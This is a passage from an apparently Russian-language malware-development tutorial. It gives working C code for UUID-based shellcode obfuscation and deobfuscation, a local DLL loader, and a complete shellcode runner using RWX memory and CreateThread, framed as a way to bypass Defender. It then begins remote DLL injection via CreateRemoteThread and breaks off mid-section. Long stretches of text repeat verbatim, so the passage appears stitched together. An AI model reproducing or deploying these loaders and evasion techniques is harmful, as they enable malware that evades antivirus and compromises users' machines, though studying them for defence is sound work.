}Пример запуска кода.

3)UUID-Обфускация
Рассмотрим еще одну технику обфускации, которая преобразует shellcode в строку Универсального Уникального Идентификатора (UUID).
UUID представляет собой 36-символьную буквенно-цифровую строку, которую можно использовать для идентификации информации.
Структура UUID
Формат UUID состоит из 5 сегментов разного размера, которые выглядят примерно так: 801B18F0-8320-4ADA-BB13-41EA1C886B87. Изображение ниже иллюстрирует структуру UUID.
Преобразование UUID в shellcode является несколько менее очевидным, чем предыдущие методы обфускации. Например, FC 48 83 E4 F0 E8 C0 00 00 00 41 51 41 50 52 51 не преобразуется в FC4883E4-F0E8-C000-0000-415141505251, вместо этого получается E48348FC-E8F0-00C0-0000-415141505251.
Обратите внимание, что первые 3 сегмента используют те же байты в нашем shellcode, но порядок обратный. Причина в том, что первые три сегмента используют порядок байтов little-endian. Для полного понимания давайте разберемся с каждым сегментом.
Little Endian: Сегмент 1: FC 48 83 E4 становится E4 83 48 FC в строке UUID Сегмент 2: E8 F0 становится F0 E8 в строке UUID Сегмент 3: C0 00 становится 00 C0 в строке UUID
Big Endian: Сегмент 4: 00 00 остается 00 00 в строке UUID Сегмент 5: 41 51 41 50 52 51 остается 41 51 41 50 52 51 в строке UUID
Реализация UUIDFuscation: Адрес UUID состоит из 16 байтов, поэтому shellcode должен быть кратен 16. UUIDFuscation будет во многом напоминать IPv6Fuscation из-за того, что оба метода требуют кратности shellcode 16 байтам. Опять же, можно дополнить буфер, если shellcode не соответствует этому требованию.
C:
// Function takes in 16 raw bytes and returns them in a UUID string format
char* GenerateUUid(int a, int b, int c, int d, int e, int f, int g, int h, int i, int j, int k, int l, int m, int n, int o, int p) {
// Each UUID segment is 32 bytes
char Output0[32], Output1[32], Output2[32], Output3[32];
// There are 4 segments in a UUID (32 * 4 = 128)
char result[128];
// Generating output0 from the first 4 bytes
sprintf(Output0, "%0.2X%0.2X%0.2X%0.2X", d, c, b, a);
// Generating output1 from the second 4 bytes
sprintf(Output1, "%0.2X%0.2X-%0.2X%0.2X", f, e, h, g);
// Generating output2 from the third 4 bytes
sprintf(Output2, "%0.2X%0.2X-%0.2X%0.2X", i, j, k, l);
// Generating output3 from the last 4 bytes
sprintf(Output3, "%0.2X%0.2X%0.2X%0.2X", m, n, o, p);
// Combining Output0,1,2,3 to generate the UUID
sprintf(result, "%s-%s-%s%s", Output0, Output1, Output2, Output3);
//printf("[i] result: %s\n", (char*)result);
return (char*)result;
}
// Generate the UUID output representation of the shellcode
// Function requires a pointer or base address to the shellcode buffer & the size of the shellcode buffer
BOOL GenerateUuidOutput(unsigned char* pShellcode, SIZE_T ShellcodeSize) {
// If the shellcode buffer is null or the size is not a multiple of 16, exit
if (pShellcode == NULL || ShellcodeSize == NULL || ShellcodeSize % 16 != 0) {
return FALSE;
}
printf("char* UuidArray[%d] = { \n\t", (int)(ShellcodeSize / 16));
// We will read one shellcode byte at a time, when the total is 16, begin generating the UUID string
// The variable 'c' is used to store the number of bytes read. By default, starts at 16.
int c = 16, counter = 0;
char* UUID = NULL;
for (int i = 0; i < ShellcodeSize; i++) {
// Track the number of bytes read and when they reach 16 we enter this if statement to begin generating the UUID string
if (c == 16) {
counter++;
// Generating the UUID string from 16 bytes which begin at i until [i + 15]
UUID = GenerateUUid(
pShellcode[i], pShellcode[i + 1], pShellcode[i + 2], pShellcode[i + 3],
pShellcode[i + 4], pShellcode[i + 5], pShellcode[i + 6], pShellcode[i + 7],
pShellcode[i + 8], pShellcode[i + 9], pShellcode[i + 10], pShellcode[i + 11],
pShellcode[i + 12], pShellcode[i + 13], pShellcode[i + 14], pShellcode[i + 15]
);
if (i == ShellcodeSize - 16) {
// Printing the last UUID string
printf("\"%s\"", UUID);
break;
}
else {
// Printing the UUID string
printf("\"%s\", ", UUID);
}
c = 1;
// Optional: To beautify the output on the console
if (counter % 3 == 0) {
printf("\n\t");
}
}
else {
c++;
}
}
printf("\n};\n\n");
return TRUE;
}Реализация деобфускации UUID
Хотя разные сегменты имеют разный порядок байтов (endianness), это не повлияет на процесс деобфускации, потому что функция WinAPI UuidFromStringA учитывает это.
То есть при использовании функции UuidFromStringA для преобразования строкового представления UUID обратно в бинарный формат, порядок байтов автоматически учитывается внутри функции, и вы получаете правильное бинарное представление без необходимости явно преобразовывать порядок байтов для различных сегментов UUID.
C:
typedef RPC_STATUS (WINAPI* fnUuidFromStringA)(
RPC_CSTR StringUuid,
UUID* Uuid
);
BOOL UuidDeobfuscation(IN CHAR* UuidArray[], IN SIZE_T NmbrOfElements, OUT PBYTE* ppDAddress, OUT SIZE_T* pDSize) {
PBYTE pBuffer = NULL,
TmpBuffer = NULL;
SIZE_T sBuffSize = NULL;
RPC_STATUS STATUS = NULL;
// Getting UuidFromStringA address from Rpcrt4.dll
fnUuidFromStringA pUuidFromStringA = (fnUuidFromStringA)GetProcAddress(LoadLibrary(TEXT("RPCRT4")), "UuidFromStringA");
if (pUuidFromStringA == NULL) {
printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Getting the real size of the shellcode which is the number of UUID strings * 16
sBuffSize = NmbrOfElements * 16;
// Allocating memory which will hold the deobfuscated shellcode
pBuffer = (PBYTE)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sBuffSize);
if (pBuffer == NULL) {
printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Setting TmpBuffer to be equal to pBuffer
TmpBuffer = pBuffer;
// Loop through all the UUID strings saved in UuidArray
for (int i = 0; i < NmbrOfElements; i++) {
// Deobfuscating one UUID string at a time
// UuidArray[i] is a single UUID string from the array UuidArray
if ((STATUS = pUuidFromStringA((RPC_CSTR)UuidArray[i], (UUID*)TmpBuffer)) != RPC_S_OK) {
// if it failed
printf("[!] UuidFromStringA Failed At [%s] With Error 0x%0.8X", UuidArray[i], STATUS);
return FALSE;
}
// 16 bytes are written to TmpBuffer at a time
// Therefore Tmpbuffer will be incremented by 16 to store the upcoming 16 bytes
TmpBuffer = (PBYTE)(TmpBuffer + 16);
}
*ppDAddress = pBuffer;
*pDSize = sBuffSize;
return TRUE;
}Демонстрация запуска кода:
Локальный запуск Payload
Предлагаю в этой статье исследовать использование динамических библиотек (DLL) в качестве полезной нагрузки и попробовать загрузить вредоносный файл DLL в текущем процессе.
Создание DLL
Создание DLL просто и может быть выполнено с помощью Visual Studio.
Создайте новый проект, выберите язык программирования C++, а затем выберите Динамически-связанную библиотеку (DLL).
Это создаст код-скелет DLL, который будет изменяться в этой статье.
Если вы хотите освежить свои знания о том, как работают DLL, то можете обратится к этой статье:Уроки - Разработка малвари - 5. Изучаем динамические библиотеки
В этой статье будет использовано диалоговое окно, которое появляется, когда DLL успешно загружена.
Создание диалогового окна можно легко сделать с помощью MessageBox из WinAPI.
Приведенный ниже фрагмент кода будет запускать MsgBoxPayload каждый раз, когда DLL загружается в процесс.
Обратите внимание, что предварительно скомпилированные заголовки были удалены из настроек C/C++ проекта, как показано здесь Уроки - Разработка малвари - 5. Изучаем динамические библиотеки
Напомним, что WinAPI LoadLibrary используется для загрузки DLL. Функция принимает путь к DLL на диске и загружает его в адресное пространство вызывающего процесса, который в нашем случае будет текущим процессом. Загрузка DLL запустит ее точку входа, а значит, выполнится функция MsgBoxPayload, и появится диалоговое окно. Хотя концепция проста, это станет полезным в последующих статьях для понимания более сложных техник.
Ниже приведенный код примет имя DLL в качестве аргумента командной строки, загрузит его с помощью LoadLibraryA и выполнит проверку ошибок, чтобы убедиться, что DLL загрузилась успешно.
Вывод
Как и ожидалось, после внедрения DLL успешно появляется диалоговое окно.
Анализ процесса
Для дополнительной проверки того, что DLL загружена в процесс, запустите Process Hacker, дважды щелкните по процессу, который загрузил DLL, и перейдите на вкладку "Модули". Имя DLL должно появиться в списке модулей. Нажав на имя DLL, можно получить дополнительную информацию о ней, такую как импорт, подпись и названия разделов.
Теперь предлагаю рассмотреть однин из самых простых способов выполнения shellcode путем создания нового потока.
Несмотря на простоту этой техники, важно понимать, как она работает, так как это лежит в основе более сложных методов выполнения shellcode.
Метод, обсуждаемый в этой статье, использует Windows API: VirtualAlloc, VirtualProtect и CreateThread. Важно отметить, что этот метод никоим образом не является скрытной техникой, и EDR (Endpoint Detection and Response) почти наверняка обнаружит эту простую технику выполнения shellcode.
С другой стороны, антивирусы потенциально могут быть обойдены с использованием этого метода при достаточной обфускации.
Необходимые Windows API
Хорошей отправной точкой будет изучение документации по Windows API, которые будут использоваться:
Полезная нагрузка, используемая в этой статье, будет сгенерированной с помощью Msfvenom x64 calc payload.
Чтобы демонстрация была реалистичной, будет предпринята попытка обхода Defender, и поэтому обфускация или шифрование полезной нагрузки будут необходимы.
Для обфускации полезной нагрузки будет использоваться программа HellShell.
Запустите следующую команду:
Вывод следует сохранить в переменную UuidArray.
Выделение памяти
VirtualAlloc используется для выделения памяти размером sDeobfuscatedSize. Размер sDeobfuscatedSize определяется функцией UuidDeobfuscation, которая возвращает общий размер деобфусцированной полезной нагрузки.
Функция Windows API VirtualAlloc выглядит следующим образом согласно ее документации:
Тип выделения памяти указан как MEM_RESERVE | MEM_COMMIT, что будет резервировать диапазон страниц в виртуальном адресном пространстве вызывающего процесса и выделять физическую память для этих зарезервированных страниц. Комбинированные флаги обсуждаются отдельно:
Запись полезной нагрузки в память
Затем байты деобфусцированной полезной нагрузки копируются в новый выделенный регион памяти по адресу pShellcodeAddress, а затем pDeobfuscatedPayload очищается, перезаписывая его нулями. pDeobfuscatedPayload - это базовый адрес, выделенный кучей функцией UuidDeobfuscation, которая возвращает байты сырой полезной нагрузки shellcode. Он был перезаписан нулями, так как больше не требуется, и, таким образом, это снизит вероятность обнаружения полезной нагрузки в памяти системами безопасности.
Изменение защиты памяти
Перед выполнением полезной нагрузки необходимо изменить защиту памяти, так как в данный момент разрешена только операция чтения/записи. VirtualProtect используется для изменения защиты памяти, и для выполнения полезной нагрузки ей понадобится либо PAGE_EXECUTE_READ, либо PAGE_EXECUTE_READWRITE.
Функция VirtualProtect WinAPI выглядит следующим образом на основе ее документации:
Хотя некоторые shellcode требуют PAGE_EXECUTE_READWRITE, такие как саморасшифровывающийся shellcode, для Msfvenom x64 calc shellcode это не требуется, но приведенный ниже фрагмент кода использует эту защиту памяти.
Выполнение полезной нагрузки через CreateThread
Наконец, полезная нагрузка выполняется путем создания нового потока с помощью функции CreateThread Windows API и передачи pShellcodeAddress, который является адресом shellcode.
Функция CreateThread WinAPI выглядит следующим образом на основе ее документации:
Выполнение полезной нагрузки через указатель на функцию
В качестве альтернативы существует более простой способ выполнения shellcode без использования Windows API CreateThread. В приведенном ниже примере shellcode приводится к указателю функции VOID и shellcode выполняется как указатель на функцию. Код по сути переходит к адресу pShellcodeAddress.
Это эквивалентно выполнению кода ниже:
CreateThread против выполнения через указатель на функцию
Хотя можно выполнить shellcode, используя метод указателя на функцию, это, как правило, не рекомендуется. Сгенерированный shellcode Msfvenom завершает вызывающий поток после завершения его выполнения. Если shellcode был выполнен с использованием метода указателя на функцию, то вызывающий поток будет основным потоком, и поэтому весь процесс завершится после завершения выполнения shellcode.
Выполнение shellcode в новом потоке предотвращает эту проблему, потому что если выполнение shellcode завершено, новый рабочий поток будет завершен, а не основной поток, предотвращая завершение всего процесса.
Ожидание выполнения потока
Выполнение shellcode с использованием нового потока без короткой задержки увеличивает вероятность завершения выполнения основного потока до завершения выполнения рабочего потока, который выполняет shellcode, что приводит к неправильной работе shellcode. Этот сценарий иллюстрируется в приведенном ниже фрагменте кода.
В предоставленной реализации используется getchar(), чтобы приостановить выполнение до тех пор, пока пользователь не предоставит ввод. В реальных реализациях следует использовать другой подход, который использует Windows API WaitForSingleObject для ожидания указанного времени до выполнения потока.
Приведенный ниже фрагмент кода использует WaitForSingleObject для ожидания завершения выполнения только что созданного потока в течение 2000 миллисекунд перед выполнением оставшегося кода.
В приведенном ниже примере WaitForSingleObject будет ждать вечно завершения выполнения нового потока.
Основная функция
Основная функция использует UuidDeobfuscation для деобфускации полезной нагрузки, затем выделяет память, копирует shellcode в регион памяти и выполняет его.
Освобождение памяти
VirtualFree - это WinAPI, который используется для освобождения ранее выделенной памяти. Эта функция должна быть вызвана только после того, как выполнение полезной нагрузки полностью завершено, иначе это может освободить содержимое полезной нагрузки и вызвать сбой процесса.
Отладка
В этом разделе реализация отлаживается с использованием отладчика xdbg для более глубокого понимания того, что происходит "под капотом".
Сначала проверьте вывод функции UuidDeobfuscation, чтобы убедиться, что возвращается действительный shellcode.
Изображение ниже показывает, что shellcode успешно деобфусцирован.
Следующим шагом является проверка того, что память выделяется с использованием Windows API VirtualAlloc. Опять же, глядя на карту памяти в нижнем левом углу, можно видеть, что память была выделена и заполнена нулями.
После успешного выделения памяти деобфусцированная полезная нагрузка записывается в буфер памяти.
Вспомните, что pDeobfuscatedPayload был обнулен, чтобы избежать наличия деобфусцированной полезной нагрузки в памяти там, где она не используется. Буфер должен быть полностью обнулен.
И, наконец, shellcode выполняется, и, как ожидалось, появляется приложение калькулятора.
Shellcode можно увидеть на вкладке памяти в Process Hacker.
Обратите внимание на то, что выделенный регион памяти имеет защиту памяти RWX, он выделяется в рантайме и, следовательно, обычно является индикатором вредоносного ПО.
Создание DLL
Создание DLL просто и может быть выполнено с помощью Visual Studio.
Создайте новый проект, выберите язык программирования C++, а затем выберите Динамически-связанную библиотеку (DLL).
Это создаст код-скелет DLL, который будет изменяться в этой статье.
Если вы хотите освежить свои знания о том, как работают DLL, то можете обратится к этой статье:Уроки - Разработка малвари - 5. Изучаем динамические библиотеки
В этой статье будет использовано диалоговое окно, которое появляется, когда DLL успешно загружена.
Создание диалогового окна можно легко сделать с помощью MessageBox из WinAPI.
Приведенный ниже фрагмент кода будет запускать MsgBoxPayload каждый раз, когда DLL загружается в процесс.
Обратите внимание, что предварительно скомпилированные заголовки были удалены из настроек C/C++ проекта, как показано здесь Уроки - Разработка малвари - 5. Изучаем динамические библиотеки
C:
#include <Windows.h>
#include <stdio.h>
VOID MsgBoxPayload() {
MessageBoxA(NULL, "Hacking With ru-sfera.pw", "Wow !", MB_OK | MB_ICONINFORMATION);
}
BOOL APIENTRY DllMain (HMODULE hModule, DWORD dwReason, LPVOID lpReserved){
switch (dwReason){
case DLL_PROCESS_ATTACH: {
MsgBoxPayload();
break;
};
case DLL_THREAD_ATTACH:
case DLL_THREAD_DETACH:
case DLL_PROCESS_DETACH:
break;
}
return TRUE;
}Напомним, что WinAPI LoadLibrary используется для загрузки DLL. Функция принимает путь к DLL на диске и загружает его в адресное пространство вызывающего процесса, который в нашем случае будет текущим процессом. Загрузка DLL запустит ее точку входа, а значит, выполнится функция MsgBoxPayload, и появится диалоговое окно. Хотя концепция проста, это станет полезным в последующих статьях для понимания более сложных техник.
Ниже приведенный код примет имя DLL в качестве аргумента командной строки, загрузит его с помощью LoadLibraryA и выполнит проверку ошибок, чтобы убедиться, что DLL загрузилась успешно.
C:
#include <Windows.h>
#include <stdio.h>
int main(int argc, char* argv[]) {
if (argc < 2){
printf("[!] Отсутствует аргумент; Нужно указать DLL для выполнения \n");
return -1;
}
printf("[i] Внедрение \"%s\" в локальный процесс с PID: %d \n", argv[1], GetCurrentProcessId());
printf("[+] Загрузка DLL... ");
if (LoadLibraryA(argv[1]) == NULL) {
printf("[!] LoadLibraryA завершилась с ошибкой: %d \n", GetLastError());
return -1;
}
printf("[+] ГОТОВО ! \n");
printf("[#] Нажмите <Enter>, чтобы выйти ... ");
getchar();
return 0;
}Вывод
Как и ожидалось, после внедрения DLL успешно появляется диалоговое окно.
Анализ процесса
Для дополнительной проверки того, что DLL загружена в процесс, запустите Process Hacker, дважды щелкните по процессу, который загрузил DLL, и перейдите на вкладку "Модули". Имя DLL должно появиться в списке модулей. Нажав на имя DLL, можно получить дополнительную информацию о ней, такую как импорт, подпись и названия разделов.
Теперь предлагаю рассмотреть однин из самых простых способов выполнения shellcode путем создания нового потока.
Несмотря на простоту этой техники, важно понимать, как она работает, так как это лежит в основе более сложных методов выполнения shellcode.
Метод, обсуждаемый в этой статье, использует Windows API: VirtualAlloc, VirtualProtect и CreateThread. Важно отметить, что этот метод никоим образом не является скрытной техникой, и EDR (Endpoint Detection and Response) почти наверняка обнаружит эту простую технику выполнения shellcode.
С другой стороны, антивирусы потенциально могут быть обойдены с использованием этого метода при достаточной обфускации.
Необходимые Windows API
Хорошей отправной точкой будет изучение документации по Windows API, которые будут использоваться:
- VirtualAlloc - выделяет память, которая будет использоваться для хранения полезной нагрузки.
- VirtualProtect - меняет защиту памяти выделенной области на исполняемую, чтобы выполнить полезную нагрузку.
- CreateThread - создает новый поток, который выполняет полезные нагрузки.
Полезная нагрузка, используемая в этой статье, будет сгенерированной с помощью Msfvenom x64 calc payload.
Чтобы демонстрация была реалистичной, будет предпринята попытка обхода Defender, и поэтому обфускация или шифрование полезной нагрузки будут необходимы.
Для обфускации полезной нагрузки будет использоваться программа HellShell.
Запустите следующую команду:
Код:
HellShell.exe msfvenom.bin uuidВывод следует сохранить в переменную UuidArray.
Выделение памяти
VirtualAlloc используется для выделения памяти размером sDeobfuscatedSize. Размер sDeobfuscatedSize определяется функцией UuidDeobfuscation, которая возвращает общий размер деобфусцированной полезной нагрузки.
Функция Windows API VirtualAlloc выглядит следующим образом согласно ее документации:
C:
LPVOID VirtualAlloc(
[in, optional] LPVOID lpAddress,
[in] SIZE_T dwSize,
[in] DWORD flAllocationType,
[in] DWORD flProtect
);Тип выделения памяти указан как MEM_RESERVE | MEM_COMMIT, что будет резервировать диапазон страниц в виртуальном адресном пространстве вызывающего процесса и выделять физическую память для этих зарезервированных страниц. Комбинированные флаги обсуждаются отдельно:
- MEM_RESERVE используется для резервирования диапазона страниц без выделения физической памяти.
- MEM_COMMIT используется для выделения диапазона страниц в виртуальном адресном пространстве процесса.
Запись полезной нагрузки в память
Затем байты деобфусцированной полезной нагрузки копируются в новый выделенный регион памяти по адресу pShellcodeAddress, а затем pDeobfuscatedPayload очищается, перезаписывая его нулями. pDeobfuscatedPayload - это базовый адрес, выделенный кучей функцией UuidDeobfuscation, которая возвращает байты сырой полезной нагрузки shellcode. Он был перезаписан нулями, так как больше не требуется, и, таким образом, это снизит вероятность обнаружения полезной нагрузки в памяти системами безопасности.
Изменение защиты памяти
Перед выполнением полезной нагрузки необходимо изменить защиту памяти, так как в данный момент разрешена только операция чтения/записи. VirtualProtect используется для изменения защиты памяти, и для выполнения полезной нагрузки ей понадобится либо PAGE_EXECUTE_READ, либо PAGE_EXECUTE_READWRITE.
Функция VirtualProtect WinAPI выглядит следующим образом на основе ее документации:
C:
BOOL VirtualProtect(
[in] LPVOID lpAddress, // Базовый адрес региона памяти, доступ к которому должен быть изменен
[in] SIZE_T dwSize, // Размер региона, атрибуты доступа к которому должны быть изменены, в байтах
[in] DWORD flNewProtect, // Новый параметр защиты памяти
[out] PDWORD lpflOldProtect // Указатель на переменную 'DWORD', которая получает предыдущее значение доступа к защите 'lpAddress'
);Хотя некоторые shellcode требуют PAGE_EXECUTE_READWRITE, такие как саморасшифровывающийся shellcode, для Msfvenom x64 calc shellcode это не требуется, но приведенный ниже фрагмент кода использует эту защиту памяти.
Выполнение полезной нагрузки через CreateThread
Наконец, полезная нагрузка выполняется путем создания нового потока с помощью функции CreateThread Windows API и передачи pShellcodeAddress, который является адресом shellcode.
Функция CreateThread WinAPI выглядит следующим образом на основе ее документации:
C:
HANDLE CreateThread(
[in, optional] LPSECURITY_ATTRIBUTES lpThreadAttributes, // Установлено в NULL - необязательно
[in] SIZE_T dwStackSize, // Установлено в 0 - по умолчанию
[in] LPTHREAD_START_ROUTINE lpStartAddress, // Указатель на функцию, которая будет выполнена потоком, в нашем случае это базовый адрес полезной нагрузки
[in, optional] __drv_aliasesMem LPVOID lpParameter, // Указатель на переменную, которая будет передана функции, выполняемой (установлено в NULL - необязательно)
[in] DWORD dwCreationFlags, // Установлено в 0 - по умолчанию
[out, optional] LPDWORD lpThreadId // указатель на переменную 'DWORD', которая получает ID потока (установлено в NULL - необязательно)
);Выполнение полезной нагрузки через указатель на функцию
В качестве альтернативы существует более простой способ выполнения shellcode без использования Windows API CreateThread. В приведенном ниже примере shellcode приводится к указателю функции VOID и shellcode выполняется как указатель на функцию. Код по сути переходит к адресу pShellcodeAddress.
C:
(*(VOID(*)()) pShellcodeAddress)();Это эквивалентно выполнению кода ниже:
C:
typedef VOID (WINAPI* fnShellcodefunc)(); // Определено перед основной функцией
fnShellcodefunc pShell = (fnShellcodefunc) pShellcodeAddress;
pShell();CreateThread против выполнения через указатель на функцию
Хотя можно выполнить shellcode, используя метод указателя на функцию, это, как правило, не рекомендуется. Сгенерированный shellcode Msfvenom завершает вызывающий поток после завершения его выполнения. Если shellcode был выполнен с использованием метода указателя на функцию, то вызывающий поток будет основным потоком, и поэтому весь процесс завершится после завершения выполнения shellcode.
Выполнение shellcode в новом потоке предотвращает эту проблему, потому что если выполнение shellcode завершено, новый рабочий поток будет завершен, а не основной поток, предотвращая завершение всего процесса.
Ожидание выполнения потока
Выполнение shellcode с использованием нового потока без короткой задержки увеличивает вероятность завершения выполнения основного потока до завершения выполнения рабочего потока, который выполняет shellcode, что приводит к неправильной работе shellcode. Этот сценарий иллюстрируется в приведенном ниже фрагменте кода.
C:
int main(){
// ...
CreateThread(NULL, NULL, pShellcodeAddress, NULL, NULL, NULL); // Выполнение shellcode
return 0; // Основной поток завершен до выполнения потока, который выполняет shellcode
}В предоставленной реализации используется getchar(), чтобы приостановить выполнение до тех пор, пока пользователь не предоставит ввод. В реальных реализациях следует использовать другой подход, который использует Windows API WaitForSingleObject для ожидания указанного времени до выполнения потока.
Приведенный ниже фрагмент кода использует WaitForSingleObject для ожидания завершения выполнения только что созданного потока в течение 2000 миллисекунд перед выполнением оставшегося кода.
C:
HANDLE hThread = CreateThread(NULL, NULL, pShellcodeAddress, NULL, NULL, NULL);
WaitForSingleObject(hThread, 2000);
// Оставшийся кодВ приведенном ниже примере WaitForSingleObject будет ждать вечно завершения выполнения нового потока.
C:
HANDLE hThread = CreateThread(NULL, NULL, pShellcodeAddress, NULL, NULL, NULL);
WaitForSingleObject(hThread, INFINITE);Основная функция
Основная функция использует UuidDeobfuscation для деобфускации полезной нагрузки, затем выделяет память, копирует shellcode в регион памяти и выполняет его.
C:
int main() {
PBYTE pDeobfuscatedPayload = NULL;
SIZE_T sDeobfuscatedSize = NULL;
printf("[i] Injecting Shellcode The Local Process Of Pid: %d \n", GetCurrentProcessId());
printf("[#] Press <Enter> To Decrypt ... ");
getchar();
printf("[i] Decrypting ...");
if (!UuidDeobfuscation(UuidArray, NumberOfElements, &pDeobfuscatedPayload, &sDeobfuscatedSize)) {
return -1;
}
printf("[+] DONE !\n");
printf("[i] Deobfuscated Payload At : 0x%p Of Size : %d \n", pDeobfuscatedPayload, sDeobfuscatedSize);
printf("[#] Press <Enter> To Allocate ... ");
getchar();
PVOID pShellcodeAddress = VirtualAlloc(NULL, sDeobfuscatedSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (pShellcodeAddress == NULL) {
printf("[!] VirtualAlloc Failed With Error : %d \n", GetLastError());
return -1;
}
printf("[i] Allocated Memory At : 0x%p \n", pShellcodeAddress);
printf("[#] Press <Enter> To Write Payload ... ");
getchar();
memcpy(pShellcodeAddress, pDeobfuscatedPayload, sDeobfuscatedSize);
memset(pDeobfuscatedPayload, '\0', sDeobfuscatedSize);
DWORD dwOldProtection = NULL;
if (!VirtualProtect(pShellcodeAddress, sDeobfuscatedSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
printf("[!] VirtualProtect Failed With Error : %d \n", GetLastError());
return -1;
}
printf("[#] Press <Enter> To Run ... ");
getchar();
if (CreateThread(NULL, NULL, pShellcodeAddress, NULL, NULL, NULL) == NULL) {
printf("[!] CreateThread Failed With Error : %d \n", GetLastError());
return -1;
}
HeapFree(GetProcessHeap(), 0, pDeobfuscatedPayload);
printf("[#] Press <Enter> To Quit ... ");
getchar();
return 0;
}Освобождение памяти
VirtualFree - это WinAPI, который используется для освобождения ранее выделенной памяти. Эта функция должна быть вызвана только после того, как выполнение полезной нагрузки полностью завершено, иначе это может освободить содержимое полезной нагрузки и вызвать сбой процесса.
C:
BOOL VirtualFree(
[in] LPVOID lpAddress,
[in] SIZE_T dwSize,
[in] DWORD dwFreeType
);Отладка
В этом разделе реализация отлаживается с использованием отладчика xdbg для более глубокого понимания того, что происходит "под капотом".
Сначала проверьте вывод функции UuidDeobfuscation, чтобы убедиться, что возвращается действительный shellcode.
Изображение ниже показывает, что shellcode успешно деобфусцирован.
Следующим шагом является проверка того, что память выделяется с использованием Windows API VirtualAlloc. Опять же, глядя на карту памяти в нижнем левом углу, можно видеть, что память была выделена и заполнена нулями.
После успешного выделения памяти деобфусцированная полезная нагрузка записывается в буфер памяти.
Вспомните, что pDeobfuscatedPayload был обнулен, чтобы избежать наличия деобфусцированной полезной нагрузки в памяти там, где она не используется. Буфер должен быть полностью обнулен.
И, наконец, shellcode выполняется, и, как ожидалось, появляется приложение калькулятора.
Shellcode можно увидеть на вкладке памяти в Process Hacker.
Обратите внимание на то, что выделенный регион памяти имеет защиту памяти RWX, он выделяется в рантайме и, следовательно, обычно является индикатором вредоносного ПО.
Иньекция в процесс
В этой статье предлагаю обсудить метод, аналогичный тому, что был показан ранее при локальной инъекции DLL, за исключением того, что теперь инъекция будет выполняться в удаленный процесс.
Перечисление процессов
Прежде чем можно будет инъецировать DLL в процесс, необходимо выбрать целевой процесс. Поэтому первым шагом в инъекции в удаленный процесс обычно является перечисление запущенных процессов на компьютере для определения потенциальных целевых процессов, в которые можно выполнить инъекцию. Для этого требуется идентификатор процесса (PID), чтобы открыть дескриптор целевого процесса и выполнить необходимую работу в нем.
В статье мы создадим функцию, которая выполняет перечисление процессов для определения всех запущенных процессов.
Функция GetRemoteProcessHandle будет использоваться для перечисления всех запущенных процессов в системе, открытия дескриптора целевого процесса и возврата как PID, так и дескриптора процесса.
CreateToolhelp32Snapshot
Кодовый фрагмент начинается с использования функции CreateToolhelp32Snapshot с флагом TH32CS_SNAPPROCESS в качестве первого параметра, который создает снимок всех процессов, работающих в системе в момент выполнения функции.
Структура PROCESSENTRY32
После создания снимка функция Process32First используется для получения информации о первом процессе в снимке. Для всех остальных процессов в снимке используется функция Process32Next.
Документация Microsoft утверждает, что как Process32First, так и Process32Next требуют передачи структуры PROCESSENTRY32 в качестве второго параметра. После вызова функций эти функции заполняют структуру информацией о процессе.
Структура PROCESSENTRY32 показана ниже с комментариями рядом к полезным членам структуры, которые будут заполнены этими функциями.
После вызова Process32First или Process32Next и заполнения структуры, данные можно извлечь из структуры, используя оператор точки.
Например, чтобы извлечь PID, используйте PROCESSENTRY32.th32ProcessID.
Process32First и Process32Next
Как уже упоминалось, Process32First используется для получения информации о первом процессе, а Process32Next для всех остальных процессов в снимке с использованием цикла do-while. Имя процесса, которое ищется (szProcessName), сравнивается с именем процесса в текущей итерации цикла, которое извлекается из заполненной структуры Proc.szExeFile. Если есть совпадение, то сохраняется идентификатор процесса (PID), и открывается дескриптор для этого процесса.
Пример кода получения ID и хендла процесса по имени:
Чувствительность к регистру в имени процесса
Приведенный выше кодовый фрагмент содержит один недочет, который был упущен и который может привести к неверным результатам. Функция wcscmp использовалась для сравнения имен процессов, но при этом не учитывалась чувствительность к регистру, что означает, что Process1.exe и process1.exe будут считаться двумя разными процессами.
В приведенном ниже кодовом фрагменте этот недостаток устранен путем преобразования значения в члене Proc.szExeFile в строку в нижнем регистре, а затем сравнения его со szProcessName.
Таким образом, szProcessName всегда должен передаваться в виде строки в нижнем регистре.
Инъекция DLL
Дескриптор процесса целевого процесса был успешно получен. Следующим шагом будет инъекция DLL в целевой процесс, для которого потребуется использование нескольких ранее использованных Windows API, а также некоторых новых.
VirtualAllocEx - Аналогично VirtualAlloc, за исключением того, что он позволяет выделять память в удаленном процессе.
WriteProcessMemory - Записывает данные в удаленный процесс. В этом случае он будет использоваться для записи пути к DLL в целевой процесс.
CreateRemoteThread - Создает поток в удаленном процессе.
Обзор кода
В этом разделе будет рассмотрен код инъекции DLL (показан ниже). Функция InjectDllToRemoteProcess принимает два аргумента:
Дескриптор процесса - это HANDLE к целевому процессу, в который будет инъецирован DLL.
Имя DLL - полный путь к DLL, который будет инъецирован в целевой процесс.
Определение адреса LoadLibraryW
LoadLibraryW используется для загрузки DLL в процесс, который его вызывает. Поскольку целью является загрузка DLL в удаленный процесс, а не в локальный процесс, он не может быть вызван напрямую.
Вместо этого необходимо получить адрес LoadLibraryW и передать его созданному удаленному потоку в процессе, передавая имя DLL в качестве его аргумента.
Это работает, потому что адрес WinAPI LoadLibraryW будет таким же в удаленном процессе, как и в локальном процессе. Чтобы определить адрес WinAPI, используются GetProcAddress и GetModuleHandle.
Адрес, хранящийся в pLoadLibraryW, будет использоваться в качестве точки входа потока при создании нового потока в удаленном процессе.
Выделение памяти
Следующим шагом является выделение памяти в удаленном процессе, которое может вместить имя DLL, DllName. Для выделения памяти в удаленном процессе используется функция VirtualAllocEx.
Запись в выделенную память
После успешного выделения памяти в удаленном процессе можно использовать WriteProcessMemory для записи в выделенный буфер. Имя DLL записывается в ранее выделенный буфер памяти.
Функция WinAPI WriteProcessMemory выглядит следующим образом на основе ее документации:
На основе показанных выше параметров WriteProcessMemory, его можно вызвать следующим образом, записывая буфер (DllName) в выделенный адрес (pAddress), возвращенный ранее вызванной функцией VirtualAllocEx.
Выполнение через новый поток
После успешной записи пути к DLL в выделенный буфер будет использоваться CreateRemoteThread для создания нового потока в удаленном процессе.
Здесь становится необходимым адрес LoadLibraryW.
